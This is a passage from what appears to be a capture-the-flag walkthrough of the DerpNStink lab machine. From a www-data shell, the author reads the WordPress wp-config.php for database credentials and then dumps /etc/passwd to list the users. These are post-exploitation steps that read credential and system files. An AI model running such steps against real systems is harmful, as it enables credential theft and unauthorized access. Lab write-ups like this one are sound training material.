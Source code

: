 ### MySQL

With a shell as the `www-data` user, I could grab credentials for wordpress easily. While I was at it, I grabbed `/etc/passwd` to get a real user list.

```
www-data@DeRPnStiNK:/var/www/html/weblog$ grep -i db wp-config.php
define('DB_NAME', 'wordpress');
define('DB_USER', 'root');
define('DB_PASSWORD', 'mysql');
define('DB_HOST', 'localhost');
define('DB_CHARSET', 'utf8');
define('DB_COLLATE', '');
define('SECURE_AUTH_SALT', '14EV-M=x?/lW3ODB7ro^;}&J4&ggBY#xohsa&7ZX/l[Xp,P;DY;AbPDA4oO#<vKd');
www-data@DeRPnStiNK:/var/www/html/weblog$
www-data@DeRPnStiNK:/var/www/html/weblog$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
usbmux:x:103:46:usbmux daemon,,,:/home/usbmux:/bin/false
dnsmasq:x:104:65534:dnsmasq,,,:/var/lib/misc:/bin/false
avahi-autoipd:x:105:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
kernoops:x:106:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
rtkit:x:107:114:RealtimeKit,,,:/proc:/bin/false
saned:x:108:115::/home/saned:/bin/false
whoopsie:x:109:116::/nonexistent:/bin/false
speech-dispatcher:x:110:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/sh
avahi:x:111:117:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
lightdm:x:112:118:Light Display Manager:/var/lib/lightdm:/bin/false
colord:x:113:121:colord colour management daemon,,,:/var/lib/colord:/bin/false
hplip:x:114:7:HPLIP system user,,,:/var/run/hplip:/bin/false
pulse:x:115:122:PulseAudio daemon,,,:/var/run/pulse:/bin/false
mysql:x:116:125:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:117:65534::/var/run/sshd:/usr/sbin/nologin
stinky:x:1001:1001:Uncle Stinky,,,:/home/stinky:/bin/bash
ftp:x:118:126:ftp daemon,,,:/srv/ftp:/bin/false
mrderp:x:1000:1000:Mr. Derp,,,:/home/mrderp:/bin/bash
www-data@DeRPnStiNK:/var/www/html/weblog$ 
```
